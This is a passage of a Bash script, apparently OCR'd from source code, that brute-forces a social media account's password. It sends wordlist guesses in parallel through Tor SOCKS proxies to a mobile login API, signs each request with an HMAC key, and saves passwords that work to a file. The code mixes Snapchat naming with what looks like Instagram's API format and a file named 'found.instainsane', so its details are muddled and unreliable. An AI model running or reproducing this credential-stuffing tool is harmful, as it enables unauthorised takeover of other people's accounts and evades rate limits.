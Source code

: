 data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'


let counter4++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9054 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then  echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid4=$! ; # wait $!;

let startline+=20
let endline+=20

done
}

bf5() {

while [ $counter5 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

let counter5++

printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9055 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m";  rm -rf nottested.lst;kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; wait $pid1 > /dev/null 2>&1; wait $pid2 > /dev/null 2>&1 ; wait $pid3 > /dev/null 2>&1 ; wait $pid4 > /dev/null 2>&1; wait $! > /dev/null 2>&1 ;
